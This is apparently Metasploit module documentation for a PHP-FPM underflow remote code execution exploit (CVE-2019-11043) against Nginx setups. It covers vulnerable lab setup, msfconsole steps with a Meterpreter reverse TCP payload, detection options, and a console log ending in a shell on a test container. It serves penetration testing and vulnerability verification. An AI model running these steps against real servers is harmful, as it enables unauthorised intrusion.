This module exploits an underflow vulnerability in versions 7.1.x below 7.1.33,
7.2.x below 7.2.24 and 7.3.x below 7.3.11 of PHP-FPM on Nginx. Only servers
with certains Nginx + PHP-FPM configurations are exploitable. This is a port of
the original neex's exploit code (see refs.). First, it detects the correct
parameters (Query String Length and custom header length) needed to trigger
code execution. This step determines if the target is actually vulnerable
(Check method). Then, the exploit sets a series of PHP INI directives to create
a file (`/tmp/a`) locally on the target, which enables code execution through a
query string parameter (`?a=<cmd>`). This is used to execute normal payload
stagers. Finally, this module does some cleanup by killing local PHP-FPM
workers (those are spawned automatically once killed) and removing the created
local file (`/tmp/a`).

## Vulnerable Application
- Install Nginx on Linux (`apt-get install nginx`)
- get the vulnerable PHP:

```
git clone https://github.com/php/php-src
# checkout the fix
git -C php-src checkout ab061f95ca966731b1c84cf5b7b20155c0a1c06a
# checkout the commit previous to the fix
git -C php-src checkout HEAD~1
```

- make sure the default Nginx configuration contains these entries and no
  script existence checks (like `try_files`):

```
location ~ [^/]\.php(/|$) {
  ...
  fastcgi_split_path_info ^(.+?\.php)(/.*)$;
  fastcgi_param PATH_INFO       $fastcgi_path_info;
  fastcgi_pass   php:9000;
  ...
}
```

See original PoC for details: https://github.com/neex/phuip-fpizdam

An easiest way to setup a vulnerable instance is to use the docker
configuration provided by the author
(https://github.com/neex/phuip-fpizdam/tree/master/reproducer)

## Verification Steps

  Preparing the target:

  1. `git clone https://github.com/neex/phuip-fpizdam`
  2. `cd phuip-fpizdam/reproducer/`
  3. `docker build -t reproduce-cve-2019-11043 .`
  4. `docker run --rm -p 192.168.6.6:8080:80 --name reproduce-cve-2019-11043 reproduce-cve-2019-11043`

  Running the exploit:

  1. `./msfconsole`
  2. `use exploit/multi/http/php_fpm_rce`
  4. `set RHOSTS 192.168.6.6`
  5. `set RPORT 8080`
  4. `set TARGETURI /script.php`
  6. `set PAYLOAD php/meterpreter/reverse_tcp`
  7. `set LHOST 192.168.6.6`
  8. `run`

## Options

   **TARGETURI**
   Path to a PHP page (`/index.php` by default). This must be a valid page.

## Advanced Options

  **MinQSL**
  Minimum query string length (QSL). The QSL detection engine will iterate
  starting from this value (1500 by default). This option is required.

  **MaxQSL**
  Maximum query string length (QSL). The QSL detection engine will iterate
  until this value is reached (1950 by default). This option is required.

  **QSLHint**
  Query string length hint. This value will be used as a QSL candidate. Note
  that setting this value skips the QSL detection.

  **QSLDetectStep**
  Query string length detect step. The QSL detection engine will iterate with
  this step value (5 by default). This option is required.

  **MaxQSLCandidates**
  Maximum query string length candidates. When the number of QSL candidates
  found during the QSL detection phase is greater than this value (10 by
  default), this indicates that something went wrong and we were not able to
  detect the correct values. This option is required.

  **MaxQSLDetectDelta**
  Maximum query string length detection delta. This value is the maximum
  distance between the candidate and the extended values (10 by default). For
  example, with a value of 20 and QSLDetectStep set to 5, candidate [1700] will
  be extended to [1680, 1685, 1690, 1695, 1700]. This option is required.

  **MaxCustomHeaderLength**
  Maximum custom header length. This value is the maximum length that will be
  used for the custom header during the parameters detection (256 by default).
  This option is required.

  **CustomHeaderLengthHint**
  Custom header length hint. This value will be used as the custom header
  length. Note that setting this value skips the custom header length
  detection.

  **DetectMethod**
  Method that will be used to detect if the target is vulnerable. Available
  methods:

  1. `session.auto_start`: this method consist in setting the
  `session.auto_start` PHP option to 1. If the response contains `PHPSESSID=`
  set-cookie value, this means the PHP option has been correctly set and the
  target is vulnerable.
  2. `output_handler.md5`: this method consist in setting the `output_handler`
  PHP option to `md5`. If the response is a md5 hash (16 characters), this
  means the PHP option has been correctly set and the target is vulnerable.

  **OperationMaxRetries**
  Maximum of operation retries. Each operation will be repeated at most
  `OperationMaxRetries` times.

## Scenarios

### Ubuntu 18.04 + nginx 1.14.0 + PHP 7.1.33dev (fpm-fcgi) (built: Feb 14 2020 16:48:15)

```
msf > use exploit/multi/http/php_fpm_rce
msf exploit(multi/http/php_fpm_rce) > set RHOSTS 192.168.6.6
RHOSTS => 192.168.6.6
msf exploit(multi/http/php_fpm_rce) > set RPORT 8080
RPORT => 8080
msf exploit(multi/http/php_fpm_rce) > set TARGETURI /script.php
TARGETURI => /script.php
msf exploit(multi/http/php_fpm_rce) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(multi/http/php_fpm_rce) > set LHOST 192.168.6.6
LHOST => 192.168.6.6
msf exploit(multi/http/php_fpm_rce) > run

[*] Started reverse TCP handler on 192.168.6.6:4444
[*] Sending baseline query...
[*] Detecting QSL...
[+] The target is probably vulnerable. Possible QSLs: [1765]
[*] Doing sanity check...
[*] Detecting attack parameters...
[+] Parameters found: QSL=1760, customh_length=69
[+] Target is vulnerable!
[*] Performing attack using php.ini settings...
[+] Success! Was able to execute a command by appending 'which+which'
[*] Trying to cleanup /tmp/a...
[+] Cleanup done!
[*] Sending payload...
[*] Sending stage (38288 bytes) to 192.168.6.6
[*] Meterpreter session 1 opened (192.168.6.6:4444 -> 192.168.6.6:59177) at 2020-02-14 12:03:45 -0600
[+] Session created
[*] Remove /tmp/a and kill workers...
[+] Done!

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : 832efebeac57
OS          : Linux 832efebeac57 4.9.184-linuxkit #1 SMP Tue Jul 2 22:58:16 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
